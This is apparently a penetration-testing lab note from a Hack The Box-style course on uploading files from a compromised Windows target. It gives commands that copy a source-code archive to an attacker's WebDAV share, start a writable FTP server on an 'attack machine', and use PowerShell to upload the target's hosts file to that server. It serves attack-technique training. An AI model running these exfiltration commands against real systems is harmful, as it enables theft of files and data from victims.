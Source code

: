#### Connecting on our target machine...
```
C:\htb> dir \\192.168.49.128\DavWWWRoot
```

DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.

#### Uploading Files...
```
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\htb> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
Note: If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations.

### FTP Uploads
When starting our ftp server, we need to give it the ```--write``` so that we can save the files.
On our attack machine;
```
sudo python3 -m pyftpdlib --port 21 --write
```
On the target windows machine;
```
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
We can also create an command file to upload a file;
![image](https://user-images.githubusercontent.com/99975622/222563528-52f5b709-181f-4cda-a0a7-3e6984f36c8d.png)

## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_root
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
